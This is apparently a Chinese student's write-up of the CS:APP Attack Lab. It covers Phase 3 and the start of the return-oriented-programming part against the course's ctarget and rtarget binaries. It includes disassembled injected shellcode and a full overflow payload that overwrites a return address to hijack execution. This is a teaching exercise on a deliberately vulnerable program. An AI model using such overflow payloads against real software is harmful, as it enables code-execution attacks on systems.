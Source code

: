 ```nasm

attack3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   

```

所以答案`phase3.txt`是:

```text
48 c7 c7 a8 dc 61 55 68 # 攻击代码从这里开始 %rip是逐行执行
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # getbuf结束后ret返回攻击代码的第一行
35 39 62 39 39 37 66 61 # 覆盖test函数栈帧，安全存放字符串
```

# Part 2

前面每次运行`ctarget`的时候，栈的地址都是一样的。

但是这里`rtarget`加入了栈随机化。

这就导致了`phase2`和`phase3`很难再通过找到`%rsp`的地址来执行我们自己注入的代码。因为每次运行`%rsp`的值都不一样。

所以得根据writeup中的`ROP`策略利用已有的字节码来执行需要的操作。

利用`farm.c`的代码，来看看有没有什么灵感。

```bash
gcc -c farm.c
objdump -d farm.o > farm.asm
```

## Phase 4

要求实现跟`Phase 2`一样的操作，只不过是在`rtarget`上运行。

并且只能使用前八个寄存器.(`%rax` ~ `%rdi`)

查看`rtarget`的反编译结果，跟`ctarget`没什么两样，问题就在于我们不能注入代码了，因为加入了栈随机化，我们不知道我们注入的代码在栈的地址。

总体而言的操作和`Phase 2`一样:

```text
attack2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	pushq  $0x4017ec
   a:	c3                   	retq   
```
